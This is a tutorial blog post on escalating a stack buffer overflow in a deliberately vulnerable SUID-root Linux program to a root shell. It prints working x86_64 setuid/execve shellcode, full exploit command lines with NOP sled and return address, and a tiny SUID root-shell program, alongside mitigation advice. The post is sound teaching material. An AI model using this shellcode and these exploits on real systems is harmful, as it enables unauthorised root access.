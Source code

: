 ```yaml
---
layout: post
title: "Buffer overflow - getting a root shell"
date: 2020-01-02
tags: [security, linux, programming, vulnerabilities]
---
```


Getting a root shell
------------------------------

The vulnerable program from the previous article spawned a shell when we exploited it, but the shell did not get us any special permissions. That's to be expected, as the vulnerable program ran with normal user privileges.

There are multiple ways to go from normal user privilege to super user privilege, and we'll look more at this later, but for now we'll focus on SUID binaries.

### SUID binaries

When root is the owner of a file, and the SUID/setuid bit is set, the program runs (when executed by a normal user) with the highest privlege.

To turn `bo_vuln1` into a SUID root binary, we set root as the owner, and set the SUID bit:

```bash
$ sudo chown root bo_vuln1
$ sudo chmod u+s  bo_vuln1
$ ls -l bo_vuln1
-rwsrwxr-x. 1 root user 19552 Jul 22 17:19 bo_vuln1
```

When we execute the above program, we run it with using our *real* user ID (the user we are logged in as), but the program runs with root as its *effective* user ID.

> The SUID bit makes a program run with the *owner's* privileges. It is displayed as "s" in the file permissions (e.g. `ls -l` output).

### Prevent privilege drop in bash

Running the same exploit as earlier, on the now SUID root `bo_vuln1`, we still get a shell with no special privileges:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4$
```

This happens because bash (and most other modern shells) will set the effective user ID to the real user ID unless we use the `-p`  option, i.e. the root privilege is *dropped*.

> The `-p` option in bash is the same as `-o privileged`.

We can see that this is true by calling `execve` to launch a shell (which is the method used by our shellcode) in a small suid root program:

```c
/*
 * rootsh.c
 * gcc rootsh.c -o rootsh -std=c99
 */

#include <unistd.h>

int main()
{
    execve("/bin/sh", (char *[]){"/bin/sh", "-p", NULL}, NULL);
}
```

After compiling, set root as owner, and set the setuid bit:

```
$ sudo chown root rootsh
[sudo] password for <user>:
$ sudo chmod u+s rootsh
$ ls -l rootsh
-rwsrwxr-x. 1 root user 18288 Aug  8 21:12 rootsh
```

When the program is executed by a normal user, it spawns a root shell:

```
$ ./rootsh
sh-4.4# whoami
root
sh-4.4#
```

> Delete the file or remove the setuid bit by using `chmod -s <FILE>`. Don't leave vulnerable programs with a SUID bit, it's probably smart the create a "superuser" or similar *normal* user to use as the owner of a SUID file for educational purposes.

On 32-bit systems "/bin/sh -p" shellcode is easy to create since arguments to functions are passed on the stack, but on 64-bit it's difficult since registers are used to pass arguments (the string with the "-p" option is too long for a register).

> We'll look more at the challenges of writing shellcode in a later chapter.

An alternative to using the `-p` option is to use a shellcode which first runs `setuid()` to set the user identity to uid 0 (root), then execute a shell. Let's grab a shellcode from shell-storm.org.

> I've chosen the 48 byte Linux x86_64 `setuid(0) + execve(/bin/sh)` by xi4oyu, available at http://shell-storm.org/shellcode/files/shellcode-77.php. The author did not zero out `rax` before moving the system call number for `execve` into the lower 8 bits of the register, so the call to `setuid` could fail. I've prefixed three bytes in the shellcode below that zeroes out `rax`, making the shellcode 51 bytes.

The bytes of the (fixed) shellcode are as follows:

```
\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

`bo_vuln1` is still set with root as owner and with the SUID bit. Let's run the shellcode (note that the NOP sled is decreased since the shellcode is longer):

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 12 * "\x90" + "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4# echo $EUID
0
sh-4.4# whoami
root
sh-4.4#
```

> Filesystems mounted with the `nosuid` mount option in (see the file `/proc/mounts`) will ignore the SUID or SGID bit, making this type of privilege escalation impossible.

